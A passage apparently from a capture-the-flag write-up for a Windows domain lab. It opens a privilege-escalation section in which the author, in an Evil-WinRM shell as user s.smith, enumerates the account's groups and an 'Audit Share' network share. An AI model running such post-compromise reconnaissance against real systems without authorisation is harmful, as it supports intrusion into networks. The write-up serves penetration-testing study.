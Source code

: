 ## **Privilege Escalation**

### s.smith --> ArkSvc

Let's see if user `s.smith` has anything interesting.

```shell
*Evil-WinRM* PS C:\Users\s.smith\Documents> net user s.smith
User name                    s.smith                                                                                                                          
Full Name                    Steve Smith                                                                                                                      
Comment                                                                                                                                                       
User's comment
Country code                 000 (System Default)
Account active               Yes
Account expires              Never

Password last set            1/28/2020 8:58:05 PM
Password expires             Never
Password changeable          1/28/2020 8:58:05 PM
Password required            Yes
User may change password     No

Workstations allowed         All
Logon script                 MapAuditDrive.vbs
User profile
Home directory
Last logon                   1/29/2020 12:26:39 AM

Logon hours allowed          All

Local Group Memberships      *Audit Share          *IT
                             *Remote Management Use
Global Group memberships     *Domain Users
The command completed successfully.
```

The user is part of a group called `Audit Share`, let's see what is this group

```shell
*Evil-WinRM* PS C:\Users\s.smith\Documents> net localgroup "Audit Share"
Alias name     Audit Share
Comment        \\Casc-DC1\Audit$

Members

-------------------------------------------------------------------------------
s.smith
The command completed successfully.
```
